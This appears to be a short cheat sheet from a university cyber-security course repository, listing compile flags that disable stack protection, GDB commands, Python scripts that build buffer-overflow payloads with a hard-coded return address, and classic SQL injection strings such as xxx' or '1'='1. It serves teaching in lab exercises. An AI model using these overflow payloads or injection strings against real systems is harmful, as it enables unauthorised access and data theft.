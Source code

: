 ## UNIMORE-cyber-security

# Buffer Overflow
```commandline
gcc -w -m32 -fno-stack-protector -fno-pic -no-pie -g -o
```

```commandline
python3 -c 'print("A"*number)' | ./esercizio1
```

# GDB
```commandline
$ gdb esercizio1
(gdb) disassamble main
```

# BE AWARE!!
```commandline
mov (or movb, movl, movw, movq)
lea
cmpl
```

# python2
```python
a = ""
for _ in range(10):
    a += "A"
print(a + '\x6b\x84\x04\x08')
```

# python3
```python
import sys

length = 10
payload = b"A" * length + b'\x6b\x84\x04\x08'
sys.stdout.buffer.write(payload)
```

# SQL Injection
```commandline
'--
```
```commandline
xxx' or '1'='1
```
